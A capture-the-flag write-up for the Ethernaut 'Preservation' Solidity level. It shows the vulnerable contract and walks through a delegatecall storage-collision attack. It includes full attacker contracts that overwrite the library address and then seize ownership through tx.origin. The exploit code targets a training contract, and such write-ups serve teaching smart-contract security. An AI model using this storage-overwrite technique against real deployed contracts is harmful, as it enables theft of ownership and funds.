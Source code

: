 # Preservation
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
The goal of this level is for you to claim ownership of the instance you are given.
Things that might help
* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.

```javascript
contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

```javascript
await ethernaut.owner()
"0x1663fcb2f6566723a4c429f8ed34352726680f9a"
```

Both `setFirstTime` and `setSecondTime` use delegatecall to set time for each library.

So, there's simple concept to declare the target contract and rewite the `setTime()` function to change instance owner variable.

First, use `setFirstTime()` to change `timeZone1Library` to become our malicious contract address, then transact to it again to make our payload work.

Our payload might change caller's local variable `owner` to become `tx.origin` which should be our EOA address.

```javascript
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

contract PreservationPunisher {
    function Punish(address _target,uint Rewriter) public {
        Preservation target = Preservation(_target);/* Preservation instance address */
        target.setFirstTime(Rewriter);/* Rewrite timeZone1Library to LocalVariableRewritter address */
        target.setFirstTime(0);/* Let LocalVariableRewritte work */
    }
}

contract LocalVariableRewriter {
  address public padding1;
  address public padding2;
  address public owner;

  function setTime(uint playerAddress) public {
    owner = tx.origin;
  }
}
```

Use same attributes and transact twice.

![](https://i.imgur.com/y0rTsrq.png)

![](https://i.imgur.com/lgGvMXm.png)

Well, this method is too rough, you can modify the contract more clean and work in one shot, maybe.